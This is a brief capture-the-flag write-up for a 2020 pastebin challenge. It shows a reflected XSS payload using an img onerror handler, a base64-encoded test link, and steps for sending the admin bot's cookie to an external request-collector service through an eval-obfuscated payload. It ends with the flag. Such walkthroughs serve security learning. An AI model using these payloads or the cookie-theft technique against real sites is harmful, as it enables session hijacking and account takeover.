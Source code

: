 **Challenge:** https://static-pastebin.2020.redpwnc.tf/

Reflected XSS Payload: `><img src onerror="<JS code to receive the flag>"`

Test [`><img src onerror="alert(document.domain)"]`(https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjIG9uZXJyb3I9YWxlcnQoZG9jdW1lbnQuZG9tYWluKT4=)

The flag will be the Admin's cookie. You only need to send a paylaod to Admin and make a redirect to your HTTP server with Admin's cookie.

Create an HTTP server or you can use some online solutions like https://webhook.site/ or https://requestbin.com/.

Use this [javascript code](https://gist.github.com/EffectRenan/9e85ddc199668e7b56decd88c875ef6e) to generate a payload which use `eval` function.
  - Edit the variable host with your URL.
  - Execute: `node eval-charcode.js | base64`. ***Ps: Base64 encode is necessary to exploit it.***


Final payload: `https://static-pastebin.2020.redpwnc.tf/paste/#<base64 encode generated>`

Send this URL to Admin at `https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin`

**Flag:** flag{54n1t1z4t10n_k1nd4_h4rd}
